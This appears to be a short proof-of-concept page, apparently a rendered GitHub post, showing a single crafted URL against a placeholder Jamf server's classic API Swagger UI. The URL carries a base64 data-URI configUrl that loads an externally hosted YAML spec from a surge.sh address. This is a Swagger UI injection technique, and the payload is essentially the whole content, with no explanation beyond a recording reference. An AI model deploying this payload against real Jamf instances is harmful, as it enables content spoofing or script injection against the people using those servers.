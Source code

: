 
![2025-05-12 00-49-55.mkv](attachments/2025-05-12 00-49-55.mkv)





```
https://VULNERABLE_JAMF/classicapi/Swagger-Ui/?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9zdGFuZGluZy1zYWx0LnN1cmdlLnNoL3Rlc3QueWFtbCIKfQ==
```

